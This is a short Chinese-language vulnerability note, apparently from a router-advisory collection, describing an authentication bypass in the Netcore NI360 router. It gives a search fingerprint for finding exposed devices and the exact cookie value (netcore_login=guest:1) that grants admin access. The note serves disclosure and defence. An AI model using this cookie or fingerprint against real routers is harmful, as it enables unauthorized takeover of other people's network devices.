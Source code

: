 # 

# 磊科 NI360路由器 认证绕过漏洞

## 漏洞描述

磊科 NI360路由器 存在认证绕过漏洞，通过添加特定的Cookie字段获取后台权限

## 漏洞影响

```
磊科 NI360路由器
```

## 网络测绘

```
title="Netcore"
```

## 漏洞描述

登录页面如下

![](./images/202202110949810.png)

添加 Cookie字段 : **netcore_login=guest:1**

刷新后登录后台

![](./images/202202110949667.png)
